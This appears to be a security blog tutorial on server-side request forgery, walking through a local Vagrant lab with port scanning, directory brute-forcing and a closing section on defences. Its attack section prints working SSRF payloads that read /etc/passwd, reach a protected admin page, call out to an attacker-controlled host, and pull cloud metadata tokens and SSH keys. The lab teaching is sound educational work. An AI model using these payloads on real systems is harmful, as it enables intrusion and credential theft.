





:slug: understanding-ssrf/
:date: 2020-05-06
:category: attacks
:subtitle: Attacking a web server using SSRF
:tags: security, web, vulnerability, ethical hacking
:image: cover.png
:alt: Blacksmith. Photo by Hannah Gibbs on Unsplash: https://unsplash.com/photos/BINLgyrG_fI
:description: Server Side Request Forgery is a vulnerability that lets the hacker perform requests outside the scope of the application. Here we will see why this happens, how it works, how we can exploit it, and what are the best ways to protect against this attack.
:keywords: Web, Security, Vulnerability, Hacking, SSRF, Input Validation.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/BINLgyrG_fI

= Understanding SSRF

Many web applications request outside services
for data, configurations, updates, among others.
This is beneficial for the developers and maintainers
because it keeps separation of duties in their infrastructure,
one for managing the view and another for the data.
When it is done right, these applications are easier to maintain
and to add features,
but there are some intrinsic risks
of getting information through the internet using web services.

`Server Side Request Forgery`, `SSRF`, occurs when
an attacker can create requests
from the vulnerable server to the internet/intranet.
Typically the vulnerable server has functionality
that reads data from an URL, publishes data to an URL,
or imports data from an URL.
An attacker could abuse this functionality
to read or update internal resources,
also could bypass access controls
like firewalls that prevent the attackers from accessing them directly.

In a normal use case,
the vulnerable application works like this:

.normal use case

. The user requests information from the Web Server
to an internal or external server, for example,
`GET /?url=http://external.server/data HTTP/1.1`
. The server makes the request to the external server
. If the request is to an intranet server,
then it passes through the company firewall
. The external server responds with the data requested,
and the user receives it

When an attacker finds this,
and he wants to bypass the firewall
in order to get internal resources,
then the process of the attack is the following:

.ssrf attack

. The attacker makes the same request
but modifies the payload
for a request to another internal server, for example,
`GET /?url=http://admin.server/users HTTP/1.1`
. The server makes the request to the modified server
. The request passes through the company firewall
bypassing its measures
. The admin server responds with the data requested by the attacker

== SSRF lab

To set up our lab,
we are going to use `Hashicorp's` link:https://www.vagrantup.com/[Vagrant];
the source files are below.
Create a folder with the name `ssrf`
and save the `Vagrantfile` there.

.setting up the lab
[source, bash, linenums]
----
$ mkdir ssrf
$ cd ssrf
ssrf$ nano Vagrantfile #Add here the content
----

.Vagrantfile
[source, ruby]
----
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|

  config.vm.box = "jarmasatfluid/ssrftest"
  config.vm.box_version = "1"
  config.vm.network "private_network", ip: "192.168.56.2"

end
----

Then run the environment using:

.vagrant up
[source, bash]
----
ssrf$ vagrant up
----

This will create a `Linux` machine
with `LAMP` installed and configured.
At this point, everything we need has been completed
and is ready for us to launch an attack.

Now we can set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with `Vagrant` too,
but you can use whatever `OS` you prefer.

These are the tools that we are going to use:

* link:https://portswigger.net/burp[Burpsuite]
* link:http://netcat.sourceforge.net/[Netcat]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://www.python.org/[Python]

If you are using `Kali`, then everything is installed by default.

We are ready to go.

== Enumerating our server

First, we need to check the server ports.
We can use `nmap` or `ncat` to do it.

.port scanning
[source, bash, linenums]
----
$ nmap 192.168.56.2
$ ncat -vz 192.168.56.2 80
$ ncat -vz 192.168.56.2 3306
----

.nmap output
[source, bash]
----
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-05 13:32 SA Pacific Standard Time
Nmap scan report for 192.168.56.2
Host is up (0.00051s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http
MAC Address: 08:00:27:0A:C5:08 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds
----

.nc
[source, bash]
----
Ncat: Connected to 192.168.56.2:80.
Ncat: 0 bytes sent, 0 bytes received in 0.31 seconds.
Ncat: No connection could be made because the target machine actively refused it. .
----

Our server runs `Apache` on `port 80`
and `MySQL` on `port 3306`, but we do not have access to it.

Then using `Dirbuster`, we can search for directories on the web server.

.dirbuster
[source, bash]
----
$ dirb http://192.168.56.2/

DIRB v2.22
By The Dark Raver

START_TIME: Tue May  5 13:30:46 2020
URL_BASE: http://192.168.56.2/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612

 Scanning URL: http://192.168.56.2/
==> DIRECTORY: http://192.168.56.2/code/
+ http://192.168.56.2/index.html (CODE:200|SIZE:11321)
+ http://192.168.56.2/server-status (CODE:403|SIZE:277)

 Entering directory: http://192.168.56.2/code/
+ http://192.168.56.2/code/admin.php (CODE:302|SIZE:2160)
+ http://192.168.56.2/code/index.php (CODE:200|SIZE:1148)

END_TIME: Tue May  5 13:30:53 2020
DOWNLOADED: 9224 - FOUND: 4
----

As we can see, there is an admin site to which we do not have access,
and a normal site to search for products.

== SSRF attacks

Given that we have access to the search products site,
then we can make a request and intercept it:

.products request
----
POST /code/ HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://192.168.56.2
Connection: close
Referer: http://192.168.56.2/code/
Cookie: PHPSESSID=6tp090rfsdurfgg5hlfrgr7v97
Upgrade-Insecure-Requests: 1

product_id=5&url=http%3A%2F%2F127.0.0.1%2Fcode%2Fproducts.php%3Fproduct_id%3D&s=OK
----

There we can see that it makes a request with an URL to retrieve the data,
so what happens when we modify the URL?
Let's change it to `https://owasp.org/`:

.simple SSRF
----
product_id=&url=https%3a//owasp.org/&s=OK
----

Then it will load the `OWASP` web page there:

.ssrf vulnerable

Now we have several options to work with here.

Reflected XSS::

Let's create an `SVG` image in our kali machine
with an `XSS` payload
and then serve it on a local `Python` server:

.local xss
[source, bash]
----
$ nano payload.svg # Put the content here
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
----

.payload.svg content
----
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#FF3435" stroke="#FF3435"/>

</svg>
----

Then simply put your URL into the request and watch the result:

.SSRF to XSS payload
----
product_id=&url=http%3a//<YOUR_IP>%3a8000/payload.svg&s=OK
----

.SSRF to XSS result

Bypassing controls::

As we saw, we could not access to the admin section of the server;
this can be bypassed with this vulnerability:

.SSRF to admin payload
----
product_id=&url=http%3A%2F%2F127.0.0.1%2Fcode%2Fadmin.php&s=OK
----

.SSRF to admin result

If the server has some local HTTP servers
like a `mongodb` database,
we could bypass the access controls with this vulnerability.

Information disclosure::

We can use `file://` to get internal files:

.file usage
----
product_id=&url=file%3a///etc/passwd&s=OK
...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
----

Also, we can use `dict://` URL schema to connect to a server and send data:

.dict usage
----
$nc -lvp 8000
# Payload
product_id=&url=dict%3a//<YOUR_IP>%3a8000/pwned&s=OK
...
Ncat: Connection from IP:PORT.
CLIENT libcurl 7.47.0
pwned
QUIT
...
----

This is useful when we found another vulnerable server or service
to send data to it and maybe execute commands.

Port enumeration::

.port enum
----
# Port open
product_id=&url=127.0.0.1%3a3306&s=OK
...

5.5.5-10.0.38-MariaDB-0ubuntu0.16.04.1
...
# Port closed
...

...
----

Cloud goodies::

If the target uses `Amazon EC2` or `Google Cloud`,
then you can request metadata from them:

.cloud SSRF
----
# Amazon
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/user-data/
# Google Cloud
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
----

Because the server uses `cURL`,
there are some URL schemas that this library does not support,
like `ssh22`, `expect`, among others.
For more information and payloads,
you can go link:https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery[here]
or check this paper from link:https://owasp.org/www-project-cheat-sheets/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf[OWASP].

== Solution

The first level of protection against this attack
is to implement input validation.
It could be in the form of validating the domain name of the target host
using a whitelist.
With this, if the attacker tries to access more resources,
it will be impossible for him.

Also if it is possible to avoid sending URLs
using user input, even if it is hidden
an attacker can modify it and exploit the vulnerability.
It is better to request resources
directly on the web server
whenever it is possible.

Another way to do this is to prevent the web application
to access only the resources that it will need
by segregating the network.
This will prevent access to other resources in the network,
but it does not work against local access.

If you want more information about protecting against SSRF,
you can check link:https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html[OWASP]
or our [inner]#link:../../rules/#architecture[rules]#.
